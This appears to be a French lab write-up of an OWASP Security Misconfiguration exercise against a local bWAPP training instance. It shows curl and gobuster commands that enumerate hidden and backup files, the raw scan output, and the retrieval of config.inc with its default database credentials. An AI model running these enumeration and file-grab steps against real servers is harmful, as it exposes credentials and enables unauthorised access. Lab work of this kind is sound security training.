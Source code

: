# A05:2021-Security Misconfiguration

## Intro

## Premier scénario

### Attaque 1 — Configuration / Backup File Disclosure (Old/Backup & Unreferenced Files)

#### Contexte
Environnement : bWAPP local (http://127.0.0.1:8081).  
Objectif : démontrer qu’un fichier de configuration accessible par HTTP divulgue des identifiants sensibles (OWASP A05:2021 - Security Misconfiguration).
Des fichiers de configuration et de sauvegarde sont présents ou référencés par l’application et peuvent être téléchargés par un attaquant via HTTP. Ces fichiers contiennent souvent des identifiants de base de données ou du code source. Leur exposition permet l’accès à la base de données et l’exfiltration des données applicatives.

1. Récupération d’une wordlist (SecLists - `common.txt`) :
curl -sS -o /home/env-admin/common.txt \
  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt

2. Scan du site web grâce à la commande curl et la wordlist
gobuster dir -u http://127.0.0.1:8081/ -w /tmp/common.txt -x php,inc,bak,zip -t 40 -o /tmp/gobuster_simple.txt

3. Analyse des fichiers de sorties
/.htaccess.inc       [33m (Status: 403)[0m [Size: 291]
/.hta.bak            [33m (Status: 403)[0m [Size: 286]
/.hta                [33m (Status: 403)[0m [Size: 282]
/.hta.inc            [33m (Status: 403)[0m [Size: 286]
/.htaccess.bak       [33m (Status: 403)[0m [Size: 291]
/.htpasswd           [33m (Status: 403)[0m [Size: 287]
/.htaccess           [33m (Status: 403)[0m [Size: 287]
/.hta.zip            [33m (Status: 403)[0m [Size: 286]
/.htaccess.php       [33m (Status: 403)[0m [Size: 291]
/.hta.php            [33m (Status: 403)[0m [Size: 286]
/.htpasswd.inc       [33m (Status: 403)[0m [Size: 291]
/.htpasswd.php       [33m (Status: 403)[0m [Size: 291]
/.htaccess.zip       [33m (Status: 403)[0m [Size: 291]
/.htpasswd.zip       [33m (Status: 403)[0m [Size: 291]
/.htpasswd.bak       [33m (Status: 403)[0m [Size: 291]
/admin               [36m (Status: 301)[0m [Size: 312][34m [--> http://127.0.0.1:8081/admin/][0m
/apps                [36m (Status: 301)[0m [Size: 311][34m [--> http://127.0.0.1:8081/apps/][0m
/backdoor.php        [32m (Status: 200)[0m [Size: 333]
/bugs                [32m (Status: 200)[0m [Size: 7858]
/captcha.php         [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/cgi-bin/.zip        [33m (Status: 403)[0m [Size: 290]
/cgi-bin/.php        [33m (Status: 403)[0m [Size: 290]
/cgi-bin/.inc        [33m (Status: 403)[0m [Size: 290]
/cgi-bin/.bak        [33m (Status: 403)[0m [Size: 290]
/cgi-bin/            [33m (Status: 403)[0m [Size: 286]
/config.inc          [32m (Status: 200)[0m [Size: 774]
/connect.php         [32m (Status: 200)[0m [Size: 0]
/credits.php         [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/db                  [36m (Status: 301)[0m [Size: 309][34m [--> http://127.0.0.1:8081/db/][0m
/documents           [36m (Status: 301)[0m [Size: 316][34m [--> http://127.0.0.1:8081/documents/][0m
/fonts               [36m (Status: 301)[0m [Size: 312][34m [--> http://127.0.0.1:8081/fonts/][0m
/images              [36m (Status: 301)[0m [Size: 313][34m [--> http://127.0.0.1:8081/images/][0m
/index.php           [36m (Status: 302)[0m [Size: 0][34m [--> portal.php][0m
/index.php           [36m (Status: 302)[0m [Size: 0][34m [--> portal.php][0m
/info.php            [32m (Status: 200)[0m [Size: 3426]
/info.php            [32m (Status: 200)[0m [Size: 3426]
/install.php         [32m (Status: 200)[0m [Size: 2270]
/js                  [36m (Status: 301)[0m [Size: 309][34m [--> http://127.0.0.1:8081/js/][0m
/login.php           [32m (Status: 200)[0m [Size: 4013]
/logout.php          [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/message             [32m (Status: 200)[0m [Size: 28]
/passwords           [36m (Status: 301)[0m [Size: 316][34m [--> http://127.0.0.1:8081/passwords/][0m
/phpinfo.php         [32m (Status: 200)[0m [Size: 78557]
/phpinfo.php         [32m (Status: 200)[0m [Size: 78557]
/portal.php          [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/portal              [32m (Status: 200)[0m [Size: 5396]
/portal.zip          [32m (Status: 200)[0m [Size: 5396]
/portal.bak          [32m (Status: 200)[0m [Size: 6594]
/robots.txt          [32m (Status: 200)[0m [Size: 167]
/robots              [32m (Status: 200)[0m [Size: 167]
/secret.php          [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/security.php        [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/server-status       [33m (Status: 403)[0m [Size: 291]
/soap                [36m (Status: 301)[0m [Size: 311][34m [--> http://127.0.0.1:8081/soap/][0m
/stylesheets         [36m (Status: 301)[0m [Size: 318][34m [--> http://127.0.0.1:8081/stylesheets/][0m
/test.php            [32m (Status: 200)[0m [Size: 0]
/training.php        [32m (Status: 200)[0m [Size: 3843]
/update.php          [32m (Status: 200)[0m [Size: 0]
/web.config          [32m (Status: 200)[0m [Size: 7556]

Découverte du fichier config.inc

4. Téléchargement du fichier 
curl -sS http://127.0.0.1:8081/config.inc -o /tmp/config.inc

5. Informations extrait 
// Connection settings
$server = "localhost";
$username = "bwapp";
$password = "bwApped";
$database = "bWAPP";
